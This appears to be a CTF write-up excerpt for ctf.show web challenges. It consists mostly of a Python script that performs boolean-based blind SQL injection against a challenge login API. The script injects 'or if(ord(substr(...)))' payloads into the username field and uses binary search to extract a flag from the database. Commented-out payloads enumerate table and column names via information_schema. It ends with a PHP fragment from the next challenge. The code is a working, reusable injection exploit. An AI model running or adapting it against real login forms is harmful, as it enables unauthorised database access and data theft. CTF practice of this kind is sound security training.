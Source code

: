 ```python
'''
Author: KonDream
Date: 2021-12-09 20:28:24
LastEditors:  KonDream
LastEditTime: 2021-12-09 20:38:55
Description:  
'''
'''
Author: KonDream
Date: 2021-12-09 19:28:19
LastEditors:  KonDream
LastEditTime: 2021-12-09 20:27:50
Description:  布尔注入
'''
import requests

url = 'http://ffbad699-b2ff-4aa2-8d23-e4b51f811e44.challenge.ctf.show/api/'

flag = '' 
# 爆数据库名 ctfshow_fl0g,ctfshow_user
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# 爆表名 id,f1ag
# payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'"
# 爆字段
payload = "select f1ag from ctfshow_fl0g"

for i in range(1, 46):
    # 查找ascii从32-128的所有字符
    low = 32
    high = 128
    # 二分查找 提升效率
    while True:
        mid = (low + high) >> 1
        if low == mid:  # low处对应字符即为数据库中的字符
            flag += str(chr(mid + 1))
            print('[*] {}'.format(flag))
            break

        data = {
            # 如果某个字符比如c大于chr(99),则返回1，否则返回0，根据回显不同最终确定某位置的某字符
            'username':"1' or if(ord(substr(({}), {}, 1)) > {}, 1, 0)-- -".format(payload, i, mid),
            'password':1
        }
        r = requests.post(url=url, data=data)
        # print(r.text)
        if r'\u5bc6\u7801\u9519\u8bef' in r.text: #返回'查询失败'证明匹配成功
            low = mid # 查询成功，区间向右靠拢
        else:
            high = mid # 查询失败，区间向左靠拢
        
```
## web192（布尔注入，过滤了ord）
```php
  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
```